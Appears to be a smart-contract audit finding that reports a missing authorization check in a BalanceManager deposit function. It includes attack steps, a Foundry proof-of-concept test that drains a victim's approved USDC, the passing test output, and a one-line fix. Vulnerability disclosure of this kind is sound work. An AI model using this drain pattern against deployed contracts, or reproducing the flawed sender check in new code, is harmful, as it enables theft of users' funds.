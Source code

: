 1. victim approving USDC to be spent by `BalanceManager` as this is the requirement for interacting with the protocol, let say the amount is 1000e6 USDC
2. attacker then proceed to call `BalanceManager::deposit` with following parameter:
    1. currency = USDC
    2. amount = 1000e6
    3. sender = victim address
    4. user = attacker address
3. victim USDC balance then transferred to `BalanceManager`
4. afterward, attacker calls `BalanceManager::withdraw` to claim the drained funds

apply the snipped below to `BalanceManagerTest.t.sol`:

```solidity
    function test_poc_fundDrainViaDeposit() public {
        // victim
        uint256 depositAmount = 1000e6;
        uint256 userBalanceBefore = IERC20(Currency.unwrap(usdc)).balanceOf(user);
        vm.prank(user);
        IERC20(Currency.unwrap(usdc)).approve(address(balanceManager), depositAmount);

        // attacker
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        balanceManager.deposit(usdc, depositAmount, user, attacker);
        balanceManager.withdraw(usdc, depositAmount);
        vm.stopPrank();

        uint256 userBalanceAfter = IERC20(Currency.unwrap(usdc)).balanceOf(user);

        // assert attacker balance increased by depositAmount
        console.log("Attacker USDC balance: %s", IERC20(Currency.unwrap(usdc)).balanceOf(attacker));
        console.log("User USDC balance decreased by: %s", userBalanceBefore - userBalanceAfter);
        assertEq(IERC20(Currency.unwrap(usdc)).balanceOf(attacker), depositAmount);
        assertEq(userBalanceAfter, userBalanceBefore - depositAmount);
    }

```

the result would be:

```bash
Ran 1 test for test/BalanceManagerTest.t.sol:BalanceManagerTest
[PASS] test_poc_fundDrainViaDeposit() (gas: 118640)
Logs:
  Attacker USDC balance: 1000000000
  User USDC balance decreased by: 1000000000
```

### **Recommendation**

made the changes below so `msg.sender` is compared to `sender` instead:

```diff
diff --git a/src/BalanceManager.sol b/src/BalanceManager.sol
index b5ae681..12f98f4 100644
--- a/src/BalanceManager.sol
+++ b/src/BalanceManager.sol
@@ -76,7 +77,7 @@ contract BalanceManager is IBalanceManager, BalanceManagerStorage, OwnableUpgrad

         Storage storage $ = getStorage();
         // Verify if the caller is the user or an authorized operator
-        if (msg.sender != user && !$.authorizedOperators[msg.sender]) {
+        if (msg.sender != sender && !$.authorizedOperators[msg.sender]) {
             revert UnauthorizedOperator(msg.sender);
         }
```
